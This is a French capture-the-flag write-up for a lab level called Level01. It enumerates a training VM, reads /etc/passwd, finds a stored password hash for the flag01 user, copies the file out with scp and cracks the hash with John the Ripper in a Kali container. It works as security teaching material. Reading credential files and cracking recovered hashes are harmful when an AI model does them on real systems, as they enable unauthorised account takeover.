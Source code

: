 # Level01

Qui suis-je ?

	$ id
	uid=2001(level01) gid=2001(level01) groups=2001(level01),100(users)

Ou suis-je ?

	$ pwd
	/home/user/level01

	$ ls -la
	total 12
	dr-x------ 1 level01 level01  100 Mar  5  2016 .
	d--x--x--x 1 root    users    340 Aug 30  2015 ..
	-r-x------ 1 level01 level01  220 Apr  3  2012 .bash_logout
	-r-x------ 1 level01 level01 3518 Aug 30  2015 .bashrc
	-r-x------ 1 level01 level01  675 Apr  3  2012 .profile

Mes fichiers / Les fichiers du user cible

	$ find / -user level01
	(nothing)
	$ find / -user flag01
	(nothing)

Rien

***********************************************************

Casser le mot de passe du user ?

	$ ls -l /etc/shadow
	-rw-r----- 1 root shadow 4428 Mar  6  2016 /etc/shadow
	(no permissions)

	$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 2477 Mar  5  2016 /etc/passwd
	(permissions good)

	$ cat /etc/passwd
	...
	flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
	...
	(there is one hashed password inside just for the user ... flag01)

On va download le fichier et le casser avec John The Ripper

	$ scp -P 4242 level01@127.0.0.1:/etc/passwd .

Container Docker Kali linux avec en volume le fichier passwd

	$ docker run --rm --privileged -v `pwd`:/Ressources -ti kalilinux/kali-linux-docker /bin/bash
	$ apt-get update && apt-get install john -y
	$ cd /Ressources
	$ john passwd
	...
	abcdefg          (flag01)
	...

On a le mot de passe

:checkered_flag:
